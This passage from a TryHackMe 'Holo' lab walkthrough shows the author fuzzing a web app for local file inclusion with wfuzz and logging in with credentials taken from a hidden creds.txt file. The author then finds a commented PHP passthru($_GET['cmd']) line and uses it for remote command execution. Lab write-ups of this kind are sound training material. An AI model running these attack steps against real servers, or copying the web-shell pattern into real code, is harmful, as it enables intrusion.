 ```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://dev.holo.live/img.php?file=FUZZ
```

However remember while exploring the `robots.txt` directory on a`dmin.holo.live`, I stumbled upon hidden files, notably one that appeared to contain credentials located at `/var/www/admin/supersecretdir/creds.txt`.

![Alt text](/assets/img/tryhackme/Networks/Holo/h7.png) 

- username `admin`
- password `DBManagerLogin!`

and I was logged in 

![Alt text](/assets/img/tryhackme/Networks/Holo/h8.png) 

Looking at the webpage source code , there was this comment line 

```php
 //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

Trying with the `?cmd=ifconfig`, I was the ip address of the server, so we had a command executed

